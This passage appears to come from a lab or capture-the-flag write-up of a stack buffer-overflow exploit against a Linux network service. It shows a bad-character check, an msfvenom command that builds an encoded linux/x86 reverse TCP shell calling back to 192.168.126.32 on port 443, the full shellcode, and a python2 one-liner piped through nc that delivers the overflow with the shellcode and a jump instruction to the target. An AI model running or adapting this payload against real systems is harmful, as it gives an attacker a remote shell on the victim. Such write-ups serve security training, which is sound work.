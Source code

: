 Then on the Data Dump window we can see the bad chars and check which of them we can't use.

![bo-047.png](/assets/images/bo-047.png)
**Figure 47** Bad chars check.

After several test I found that the `\x20` are also need to listed as bad char, so I amusing that I can use them all except `\x11\x90\x00\x20`, so we run msfvenom and create reverse shell.

```bash
└─$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.126.32 lport=443 -b "\x00\x11\x20\x90" -f py -v shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 497 bytes
shell =  b""
shell += b"\xdb\xdc\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x12\xb8"
shell += b"\x6f\x0e\x8f\xae\x83\xee\xfc\x31\x46\x13\x03\x29"
shell += b"\x1d\x6d\x5b\x84\xfa\x86\x47\xb5\xbf\x3b\xe2\x3b"
shell += b"\xc9\x5d\x42\x5d\x04\x1d\x30\xf8\x26\x21\xfa\x7a"
shell += b"\x0f\x27\xfd\x12\x50\x7f\x83\xc2\x38\x82\x7c\x03"
shell += b"\x02\x0b\x9d\xb3\x12\x5c\x0f\xe0\x69\x5f\x26\xe7"
shell += b"\x43\xe0\x6a\x8f\x35\xce\xf9\x27\xa2\x3f\xd1\xd5"
shell += b"\x5b\xc9\xce\x4b\xcf\x40\xf1\xdb\xe4\x9f\x72"
```

Now run the following against the target, and check if we get crash with 'B' overwrite the EIP.
```bash
python2 -c 'print "\x11(setup sound " + "\x90"*8 + "\xdb\xdc\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x12\xb8\x6f\x0e\x8f\xae\x83\xee\xfc\x31\x46\x13\x03\x29\x1d\x6d\x5b\x84\xfa\x86\x47\xb5\xbf\x3b\xe2\x3b\xc9\x5d\x42\x5d\x04\x1d\x30\xf8\x26\x21\xfa\x7a\x0f\x27\xfd\x12\x50\x7f\x83\xc2\x38\x82\x7c\x03\x02\x0b\x9d\xb3\x12\x5c\x0f\xe0\x69\x5f\x26\xe7\x43\xe0\x6a\x8f\x35\xce\xf9\x27\xa2\x3f\xd1\xd5\x5b\xc9\xce\x4b\xcf\x40\xf1\xdb\xe4\x9f\x72"+"A"*4265+"A"*4+"\x83\xc0\x0c\xff\xe0\x90\x90"+"\x90\x00#"'| nc -nv 192.168.126.36 13327
```
